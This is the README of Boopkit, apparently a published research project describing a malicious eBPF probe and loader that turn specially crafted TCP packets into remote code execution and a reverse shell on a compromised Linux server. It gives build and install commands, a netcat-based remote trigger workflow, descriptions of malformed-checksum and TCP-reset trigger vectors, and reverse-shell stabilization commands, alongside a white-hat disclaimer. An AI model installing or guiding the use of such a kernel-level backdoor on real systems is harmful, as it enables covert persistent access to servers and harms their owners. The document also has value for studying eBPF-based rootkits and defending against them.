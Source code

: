 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe installed on a server.

Tested on Linux 5.17

##### Disclaimer

> This is **NOT** an exploit! This requires prior priviliged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegaly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: Kubernetes, SSH, nginx, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
cd remote
# edit ./remote as needed
./remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy :)

# Boop Vectors

Boopkit can "boop" the probe remotely in many ways. 

### 1. Bad Checksum

The first boop that is attempted by the trigger is sending a malformed TCP SYN packet with an uncalculated checksum. This is an extremely lightweight and versatile boop as it can be ran against any server regardless if the server currently has an application running and accepting TCP connections! Yes. You can literally just "boop" a server and trigger a bad checksum as the kernel by default is listening for sockets on all ports.

### 2. TCP Resets

The first boop is scary, but not always reliable. Most modern networking hardware will drop malformed packets such as the ones required for the first boop. So a slightly less versatile vector is to boop an active TCP server in the hopes of causing the TCP server to trigger a TCP reset in the kernel. This can be done by pointing the `/trigger` program at a TCP service such as OpenSSH or Kubernetes.

These TCP resets are much riskier, less reliable, and noiser from a kernel perspective. There is also no guarantee that a TCP service will actually trigger the TCP reset tracepoint. By default Boopkit will attempt to create a more reliable SOCK_STREAM style connection before attempting the TCP reset boop, simply to validate that the remote is online and responding to TCP.


# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

# Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. It is possible to use [Jason Turley](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)'s suggestion to stablize the shell.

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

# References 

Credit to the original authors for their helpful code samples! I forked a lot of code for this project!

 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)